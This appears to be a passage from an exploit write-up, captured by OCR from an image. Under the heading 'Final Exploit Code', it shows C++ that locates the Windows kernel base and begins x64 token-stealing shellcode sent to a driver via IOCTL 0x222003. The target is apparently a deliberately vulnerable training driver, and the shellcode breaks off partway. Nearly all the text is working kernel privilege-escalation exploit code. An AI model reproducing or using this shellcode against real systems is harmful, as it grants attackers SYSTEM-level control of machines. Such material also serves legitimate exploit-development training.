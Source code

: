### Final Exploit Code
```c
#include <iostream>
#include <Windows.h>
#include <Psapi.h>

#define IO_CODE 0x222003

unsigned long long getKernelBaseAddress() {

	void* lpImageBase[1024];
	unsigned long lpcbNeeded;

	int baseOfDrivers = EnumDeviceDrivers(
		lpImageBase,
		sizeof(lpImageBase),
		&lpcbNeeded
	);

	if (!baseOfDrivers)
	{
		std::cout << "[-] Error! Unable to invoke EnumDeviceDrivers(). Error: %d\n" << GetLastError() << std::endl;
		exit(1);
	}

	// ntoskrnl.exe is the first module dumped in the array.
	unsigned long long kernelBaseAddress = (unsigned long long)lpImageBase[0];

	std::cout << "[+] ntoskrnl.exe is located at: 0x%llx\n" << kernelBaseAddress << std::endl;

	return kernelBaseAddress;
}

void sendPayload(HANDLE hDevice, ULONG64 kernel_base) {

    std::cout << "[+] Allocating RWX shellcode..." << std::endl;

    // slightly altered shellcode from 
    // https://github.com/Cn33liz/HSEVD-StackOverflowX64/blob/master/HS-StackOverflowX64/HS-StackOverflowX64.c
    // thank you @Cneelis
    BYTE shellcode[] =
        "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, [gs:188h]       ; Get _ETHREAD pointer from KPCR
        "\x4C\x8B\x82\xB8\x00\x00\x00"              // mov r8, [rdx + b8h]      ; _EPROCESS (kd> u PsGetCurrentProcess)
        "\x4D\x8B\x88\xf0\x02\x00\x00"              // mov r9, [r8 + 2f0h]      ; ActiveProcessLinks list head
        "\x49\x8B\x09"                              // mov rcx, [r9]            ; Follow link to first process in list
        //find_system_proc:
        "\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; Offset from ActiveProcessLinks to UniqueProcessId
        "\x48\x83\xFA\x04"                          // cmp rdx, 4               ; Process with ID 4 is System process
        "\x74\x05"                                  // jz found_system          ; Found SYSTEM token
        "\x48\x8B\x09"                              // mov rcx, [rcx]           ; Follow _LIST_ENTRY Flink pointer
        "\xEB\xF1"                                  // jmp find_system_proc     ; Loop
        //found_system:
```